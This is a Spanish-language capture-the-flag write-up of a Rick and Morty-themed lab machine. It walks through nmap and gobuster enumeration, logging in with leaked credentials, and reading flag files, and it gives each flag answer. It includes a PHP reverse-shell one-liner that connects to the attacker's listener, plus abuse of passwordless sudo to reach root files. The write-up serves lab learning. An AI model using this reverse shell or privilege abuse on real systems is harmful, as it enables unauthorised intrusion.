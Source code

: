 
![](https://i.imgur.com/o9pyhyU.jpg)  

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

## Preguntas a responder: 

-----

What is the first ingredient that Rick needs?  


What is the second ingredient in Rick’s potion?  


What is the last and final ingredient?  

-----

Empezamos con un mapeo de todos los puertos por nmap:

```bash
❯ nmap -p- --min-rate 5000 -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:34 CEST
Nmap scan report for 10.10.142.14
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.16 seconds
```

Ahora hacemos un escaneo mas completo a los puertos encontrados:

```bash
❯ nmap -p22,80 -sCV -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:36 CEST
Nmap scan report for 10.10.142.14
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9:f6:10:24:1d:cf:07:a4:3c:1f:e3:06:7f:f4:64:8b (RSA)
|   256 b0:9d:20:7f:58:4f:ce:b5:cc:e0:8f:e2:60:05:65:3a (ECDSA)
|_  256 3d:53:81:7c:09:64:65:82:af:6a:1d:16:8c:52:02:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

con todo esto vamos a empezar por el servicio http y la web que aloja en el apache.

en el codigo fuente de la web vemos este body:


``` html
<body> 
	<div class="container"> 
	<div class="jumbotron"></div> 
		<h1>Help Morty!</h1></br> 
		<p>Listen Morty... I need your help, I've turned myself into a pickle   again and this time I can't change back!</p>
		</br> <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br> 
		
		</div> 
		
		<!-- Note to self, remember username! Username: R1ckRul3s --> 

</body>
```

nos guardamos el username: R1ckRul3s

Intenté hacer un ataque de fuerza bruta con hydra al ssh pero el servicio no me dejaba por lo que continué centrándome en la web.

Buscamos el archivo robots.txt y enontramos esto:

**Wubbalubbadubdub**

hacemos una enumeración de directorios con gobuster, esta vez añadimos la flag -x para encontrar directorios con extensiones de archivo como php:

```bash
❯ gobuster dir -u http://10.10.142.14 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,json,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.142.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              xml,php,html,txt,json
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.142.14/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
Progress: 10490 / 1323360 (0.79%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 10496 / 1323360 (0.79%)
===============================================================
Finished
===============================================================
```

accedemos a la pagina login.php, me mostro una web de logueo, probé loguearme con el usuario R1ckRul3s y la pass: Wubbalubbadubdub y entre a este panel:

![Pasted image 20240514115345.png](assets/PanelRick.png)

aqui podemos introducir comandos a una shell, hice un -ls -la y mostró varios archivos:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
aquí podemos obtener el primer ingrediente, con un **cat Sup3rS3cretPickl3Ingred.txt** no nos deja obtener el resultado así que usé el comando less y obtenemos el primer ingrediente:
```bash
less Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
 la primera pregunta queda respondida : 
 
 **What is the first ingredient that Rick needs?**
 
 Respuesta: **mr. meeseek hair**

después de esto intento hacer una reverse shell para un manejo mas cómodo:
tras unas pruebas consigo que me funcione con este one-liner rev: 

**php -r '$sock=fsockopen("10.9.251.231",1234);exec("/bin/bash <&3 >&3 2>&3");'**

y obtengo acceso:
```
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.142.14] 33970
whoami
www-data

```

hago un tratamiento de la tty y empiezo con una pequeña enumeración para ver que permisos de sudo tenemos y sorpresa:

```bash
www-data@ip-10-10-142-14:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-142-14:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-142-14:
    (ALL) NOPASSWD: ALL
```
tenemos permisos para todo.

vemos el archivo clue.txt que se muestra en el mismo directorio que el primer ingrediente y nos dice que sigamos buscando por el sistema.

En la carpeta de rick encontramos el segundo ingrediente:
```bash
www-data@ip-10-10-142-14:/home$ cd rick
www-data@ip-10-10-142-14:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019  .
drwxr-xr-x 4 root root 4096 Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
www-data@ip-10-10-142-14:/home/rick$ cat second\ ingredients 
1 jerry tear
www-data@ip-10-10-142-14:/home/rick$ 
```

**What is the second ingredient in Rick’s potion?**
Respuesta: **1 jerry tear**

ahora intenté entrar al directorio de root pero no me dejaba así que probé varios métodos 
```bash
www-data@ip-10-10-142-14:/$ cd root
bash: cd: root: Permission denied
www-data@ip-10-10-142-14:/$ sudo cd root
sudo: cd: command not found
www-data@ip-10-10-142-14:/$ ls root
ls: cannot open directory 'root': Permission denied
www-data@ip-10-10-142-14:/$ sudo ls root
3rd.txt  snap
www-data@ip-10-10-142-14:/$ 
www-data@ip-10-10-142-14:/$ sudo less root/3rd.txt
# y pude visualizar el tercer ingrediente

3rd ingredients: fleeb juice
```

**What is the last and final ingredient?**
Respuesta: **fleeb juice**

Con esto concluimos la maquina.